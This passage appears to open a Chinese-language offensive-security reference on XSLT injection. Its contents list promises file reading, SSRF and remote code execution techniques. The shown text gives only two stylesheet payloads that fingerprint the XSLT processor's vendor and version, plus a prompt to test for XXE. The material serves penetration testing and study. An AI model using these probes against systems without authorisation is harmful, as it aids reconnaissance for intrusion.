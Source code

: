 # XSLT 注入

> 处理未经验证的 XSL 样式表可能会允许攻击者更改结果 XML 的结构和内容、从文件系统中包含任意文件或执行任意代码。

## 概述

- [工具](#工具)
- [方法论](#方法论)
    - [确定供应商和版本](#确定供应商和版本)
    - [外部实体](#外部实体)
    - [使用 document 读取文件和 SSRF](#使用-document-读取文件和-ssrf)
    - [使用 EXSLT 扩展写入文件](#使用-exslt-扩展写入文件)
    - [使用 PHP 包装器进行远程代码执行](#使用-php-包装器进行远程代码执行)
    - [使用 Java 进行远程代码执行](#使用-java进行远程代码执行)
    - [使用原生 .NET 进行远程代码执行](#使用原生-.net进行远程代码执行)
- [实验室](#实验室)
- [参考文献](#参考文献)

## 工具

目前没有已知的工具可以帮助进行 XSLT 利用。

## 方法论

### 确定供应商和版本

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
 <xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<br />版本: <xsl:value-of select="system-property('xsl:version')" />
<br />供应商: <xsl:value-of select="system-property('xsl:vendor')" />
<br />供应商 URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
</body>
</html>
```

### 外部实体

遇到 XSLT 文件时不要忘记测试 XXE。
